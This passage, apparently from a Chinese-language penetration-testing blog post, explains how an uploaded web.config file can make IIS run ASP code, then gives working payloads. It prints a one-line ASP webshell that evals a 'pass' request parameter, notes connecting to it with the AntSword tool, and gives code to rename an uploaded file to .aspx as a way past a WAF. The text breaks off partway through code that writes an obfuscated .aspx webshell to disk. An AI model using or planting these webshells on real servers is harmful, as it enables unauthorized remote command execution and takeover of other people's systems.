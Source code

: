   

接下来根据配置文件，IIS 将任意 *.config 的内容交给 asp.dll 来解析，这时就像解析一个正常的 asp
脚本一样了，而根据解析的特性，只有代码中被 "<% %>" 包裹的才会真正被解析，所以前面的 xml 配置部分也不会影响代码执行。于是，我们就可以利用
web.config 来执行代码了。

  

分析完配置文件之后，再来看一下实际利用过程，我们已经有了一个可以执行代码的手段，那么接下来的操作就更加丰富了：

  

 **第一种： 可以直接上个小马：**

<% Response.write("-"&"->")

eval request("pass")

Response.write("</pre><!-"&"-") %>

蚁剑连接：

![](https://gitee.com/fuli009/images/raw/master/public/20230625172511.png)

执行命令：

![](https://gitee.com/fuli009/images/raw/master/public/20230625172512.png)

  

 **第二种，非敏感操作**

如果或者对方的 waf 足够强大的话，还可以利用这里代码执行做一些非敏感操作如：修改文件后缀名、写入 shell 等。

  

  

修改文件名：

<% Response.write("-"&"->")

set fs = CreateObject("Scripting.FileSystemObject")

fs.MoveFile "C:\xxx\xxxx\xxxxx\a.txt","C:\xxx\xxxx\xxxxx\a.aspx"

Response.write("<!-"&"-") %>

  

  

写入 shell ：

<% Response.write("-"&"->")

set fs = CreateObject("Scripting.FileSystemObject")

set wf = fs.CreateTextFile("C:\xxx\xxxx\xxxxx\c.aspx", True)

wf.WriteLine("<%@ Page Language=""Jscript"" Debug=true%\>")

wf.WriteLine("<%")

wf.WriteLine("var
TALN='CIoiSdFjwMGzRuqtbmHUaKnecYLrDkXhpxTVsvAgQZJPfBWylEON';")

wf.WriteLine("var NZRS=Request.Form(""pass"");")

